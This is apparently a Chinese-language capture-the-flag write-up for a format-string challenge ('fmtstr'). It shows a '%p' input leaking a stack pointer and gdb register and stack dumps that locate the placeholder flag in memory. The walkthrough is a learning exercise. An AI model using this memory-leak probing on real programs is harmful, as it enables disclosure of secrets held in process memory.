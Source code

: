# Level 2 - fmtstr

[題目]

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/20211115/image/fmtstr_topic.png)

[解題]

首先，我們可以看到題目給我們兩個檔案 **fmtstr** 和 **fmtstr.c**，打開 fmtstr.c 進行原始碼分析。

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/20211115/image/fmtstr_c.png)

我們可以看到程式碼中有 **MyFirstCTF{??????????????????????????????????????????????}**，即是我們想要的 flag。接著進行程式行為分析，執行 fmtstr 檔案。
> ./fmtstr
```
input:1
output:1

input:%p
output:0x7f46f939c9f0          ==> 表示有 format string 漏洞 
```
下一步，開始進行逆向分析，使用 gdb。
> gdb fmtstr

> b main

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/20211115/image/fmtstr_gdb.png)

> r

Output:
```
────────────────────────────────── Registers ───────────────────────────────────
RAX: 0x4006c6 (<main>:	push   rbp)
RBX: 0x0 
RCX: 0x7ffff7faa718 --> 0x7ffff7fabd80 --> 0x0 
RDX: 0x7fffffffe278 --> 0x7fffffffe56a ("SHELL=/bin/bash")
RSI: 0x7fffffffe268 --> 0x7fffffffe54d ("/root/NTHU/CTF/fmtstr/fmtstr")
RDI: 0x1 
RBP: 0x7fffffffe180 --> 0x4007c0 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffe180 --> 0x4007c0 (<__libc_csu_init>:	push   r15)
RIP: 0x4006ca (<main+4>:	sub    rsp,0x70)
R8 : 0x7ffff7fabd80 --> 0x0 
R9 : 0x7ffff7fabd80 --> 0x0 
R10: 0xfffffffffffff427 
R11: 0x7ffff7e12fb0 (<__libc_start_main>:	push   r14)
R12: 0x4005d0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe260 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
───────────────────────────────────── Code ─────────────────────────────────────
   0x4006c1 <frame_dummy+33>:	jmp    0x400640 <register_tm_clones>
   0x4006c6 <main>:	push   rbp
   0x4006c7 <main+1>:	mov    rbp,rsp
=> 0x4006ca <main+4>:	sub    rsp,0x70
   0x4006ce <main+8>:	mov    rax,QWORD PTR fs:0x28
   0x4006d7 <main+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x4006db <main+21>:	xor    eax,eax
   0x4006dd <main+23>:	
    mov    rax,QWORD PTR [rip+0x20096c]        # 0x601050 <stdout@@GLIBC_2.2.5>
──────────────────────────────────── Stack ─────────────────────────────────────
0000| 0x7fffffffe180 --> 0x4007c0 (<__libc_csu_init>:	push   r15)
0008| 0x7fffffffe188 --> 0x7ffff7e1309b (<__libc_start_main+235>:	mov    edi,eax)
0016| 0x7fffffffe190 --> 0x0 
0024| 0x7fffffffe198 --> 0x7fffffffe268 --> 0x7fffffffe54d ("/root/NTHU/CTF/fmtstr/fmtstr")
0032| 0x7fffffffe1a0 --> 0x100000000 
0040| 0x7fffffffe1a8 --> 0x4006c6 (<main>:	push   rbp)
0048| 0x7fffffffe1b0 --> 0x0 
0056| 0x7fffffffe1b8 --> 0x501688d5d77e22ae 
────────────────────────────────────────────────────────────────────────────────
Legend: code, data, rodata, heap, value

Breakpoint 1, 0x00000000004006ca in main ()

```
> ni   ==>一直到scanf
```
───────────────────────────────────── Code ─────────────────────────────────────
   0x40077c <main+182>:	mov    edi,0x400844
   0x400781 <main+187>:	mov    eax,0x0
   0x400786 <main+192>:	call   0x4005b0 <__isoc99_scanf@plt>
=> 0x40078b <main+197>:	lea    rax,[rbp-0x70]
   0x40078f <main+201>:	mov    rdi,rax
   0x400792 <main+204>:	mov    eax,0x0
   0x400797 <main+209>:	call   0x400580 <printf@plt>
   0x40079c <main+214>:	mov    eax,0x0
[rbp-0x70] : 0x7fffffffe110 --> 0xff0000000071 
──────────────────────────────────── Stack ─────────────────────────────────────
0000| 0x7fffffffe110 --> 0xff0000000071 
0008| 0x7fffffffe118 --> 0x0 
0016| 0x7fffffffe120 --> 0x0 
0024| 0x7fffffffe128 --> 0xff00000000 
0032| 0x7fffffffe130 --> 0x0 
0040| 0x7fffffffe138 --> 0x0 
0048| 0x7fffffffe140 ("FLAG{", '?' <repeats 46 times>, "}")
0056| 0x7fffffffe148 ('?' <repeats 43 times>, "}")
────────────────────────────────────────────────────────────────────────────────
Legend: code, data, rodata, heap, value
0x000000000040078b in main ()
```

在 gdb 裡，為了方便除錯，它將程式碼以副程式為單位分成一個個的區塊 (frame)。比如說，main() 會被視為一個 frame，而其他 function 則會被視為另一個 frame。因而在利用 gdb 除錯時，可以直接執行某個 frame、跳至上一個或下一個 frame、直接執行至該 frame 結束... 等等，而加快在使用 gdb 來 debug 的速度並降低 debug 的困難度。

在 frame 與 frame 之間，正在執行的區塊就是 frame 0。呼叫該區塊的就是 frame 1；而再上上一層的就叫 frame 2，以此類推。

在 gdb 進入另一個 frame 之前，它會將該 frame 的一些變數值之類的儲存至堆疊 (stack) 裡，等到從 frame 回來後再從這些 stack 裡把這些變數值取回來。

> stack 14

Output:
```
0000| 0x7fffffffe110 --> 0xff0000000071 
0008| 0x7fffffffe118 --> 0x0 
0016| 0x7fffffffe120 --> 0x0 
0024| 0x7fffffffe128 --> 0xff00000000 
0032| 0x7fffffffe130 --> 0x0 
0040| 0x7fffffffe138 --> 0x0 
0048| 0x7fffffffe140 ("FLAG{", '?' <repeats 46 times>, "}")
0056| 0x7fffffffe148 ('?' <repeats 43 times>, "}")
0064| 0x7fffffffe150 ('?' <repeats 35 times>, "}")
0072| 0x7fffffffe158 ('?' <repeats 27 times>, "}")
0080| 0x7fffffffe160 ('?' <repeats 19 times>, "}")
0088| 0x7fffffffe168 ('?' <repeats 11 times>, "}")
0096| 0x7fffffffe170 --> 0x7d3f3f3f ('???}')
0104| 0x7fffffffe178 --> 0x4e5fab838babda00 
```
